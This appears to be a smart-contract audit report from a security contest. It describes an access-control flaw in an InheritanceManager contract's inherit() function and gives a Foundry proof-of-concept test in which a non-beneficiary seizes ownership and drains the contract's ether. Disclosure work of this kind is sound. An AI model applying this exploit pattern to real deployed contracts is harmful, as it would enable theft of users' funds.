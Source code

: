 ## High-1

Unauthorized Inheritance Takeover in InheritanceManager Contract can lead to theft of all contract assets.

## Summary

The `inherit()` function in InheritanceManager allows any address to claim ownership of the contract after 90 days of inactivity, even if they are not registered beneficiaries, leading to potential theft of all contract assets.

## Vulnerability Details

The vulnerability exists in the `inherit()` function where there's no validation to ensure the caller is a registered beneficiary.

Affected code:  

<https://github.com/CodeHawks-Contests/2025-03-inheritable-smart-contract-wallet/blob/9de6350f3b78be35a987e972a1362e26d8d5817d/src/InheritanceManager.sol#L212C3-L229C6>

Attack Path:

* Initial State: Contract has funds and one registered beneficiary

* Step 1: Attacker waits for 90 days of owner inactivity

* Step 2: Attacker calls `inherit()` despite not being a beneficiary

* Step 3: Attacker becomes the new owner and can call `sendETH()`/`sendERC20()`

* Outcome: Attacker drains all contract assets

\
POC : POC test demonstrating the vulnerability:

```Solidity
function test_inheritVulnerabilityByNonBeneficiary() public {
    address attacker = makeAddr("attacker");
    
    vm.startPrank(owner);
    im.addBeneficiery(user1);
    vm.deal(address(im), 10 ether);
    vm.stopPrank();

    vm.warp(block.timestamp + 91 days);

    vm.startPrank(attacker);
    im.inherit();
    im.sendETH(10 ether, attacker);
    vm.stopPrank();

    assertEq(im.getOwner(), attacker);
    assertEq(address(im).balance, 0);
    assertEq(attacker.balance, 10 ether);
}
```
